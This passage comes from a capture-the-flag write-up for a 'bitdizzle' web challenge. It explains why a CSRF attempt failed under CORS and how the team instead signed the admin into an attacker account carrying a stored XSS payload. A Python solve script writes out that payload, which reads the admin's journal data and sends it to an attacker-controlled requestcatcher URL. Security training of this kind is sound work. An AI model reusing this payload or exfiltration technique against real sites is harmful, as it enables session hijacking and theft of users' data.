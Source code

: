 
However, running that code returns a CORS error. The gist of it is this - since the `Access-Control-Allow-Origin` header wasn't present on journal.bitdizzle.xyz and didn't allow POST requests from my domain, the CSRF attack failed (exactly to prevent this kind of thing). One work around is to add the `mode: 'no-cors'` to the object inside fetch. The problem I ran into was that this meant our `Content-Type` header was invalidated, and line 56 of [journal.py](/static/asvctf-bitdizzle/src/journal.py) used the `flask.request.get_json()`, which by default **requires** the `Content-Type` header to be set to `application/json`. Even though we were sending it JSON-formatted data, the request would give us a 500 error since the `Content-Type` was incorrect. 

After a while of looking into bypassing this (even inspecting the Flask source code for unintended bugs and behaviors), I couldn't get past this. If I couldn't exploit the CSRF for the admin user, we could obtain the OAuth code to log in as admin. 

### Signing Admin into Another Account
This is when my teammate had the brilliant idea of signing the admin user into another malicious account on journals.bitdizzle.xyz. It didn't matter if the admin was signed into the admin account on journals.bitdizzle.xyz, as long as they visited a page with a XSS payload on it. So our strategy then turned to 1) making a brand-new account on accounts.bitdizzle.xyz, 2) authenticating to journals.bitdizzle.xyz, 3) leaving a XSS payload in the journal notes for that new account, and 4) making the admin account sign in to the brand-new account on journals.bitdizzle.xyz. 

After that, we could either exfiltrate the OAuth token, or just exfiltrate the content on the admin's original journal account.

### Solve Script
Here is my [automated exploit](/static/asvctf-bitdizzle/solve.py) in Python:

```python
import requests, secrets

ATTACKER_CONTROLLED_DOMAIN = "https://dfsafsdfasdf.requestcatcher.com/"


# this ensures any cookies that we are given are sent in subsequent requests, even 
# if not explicitly set
s = requests.Session()


# logins us into a random account on accounts.bitdizzle.xyz, then authenticates 
# to the journal.bitdizzle.xyz server
r = s.post("https://accounts.bitdizzle.xyz/login",
            data={"username":secrets.token_hex(8)},
            allow_redirects=True)
r = s.get("https://accounts.bitdizzle.xyz/oauth_authorize?client_id="\
    "f45735d5a3b056b6&redirect_uri=https%3A%2F%2Fjournal.bit"\
    "dizzle.xyz%2Foauth_callback")


# XSS payload that will have the admin log back into their account on 
# journal.bitdizzle.xyz in a new window, then have the original window steal 
# the contents (which will be the admin's journal entries) and exfiltrate to 
# our domain
payload = "</script><script>g = window.open('https://accounts.bitdizzle.xyz/"\
    "oauth_authorize?client_id=f45735d5a3b056b6&redirect_uri=https%3A%2F%2F"\
    "journal.bitdizzle.xyz%2Foauth_callback'); g.onload = () => { "\
    "location.href=`"+ATTACKER_CONTROLLED_DOMAIN+"/xss?${JSON.stringify(g.initial"\
    "Props)}`; }; </script>"

# now that we have our payload and are authenticated to journal, we will post 
# our payload as a new entry
r = s.post(
    "https://journal.bitdizzle.xyz/entries/",
    json={"title":"bad","body":payload}
)
```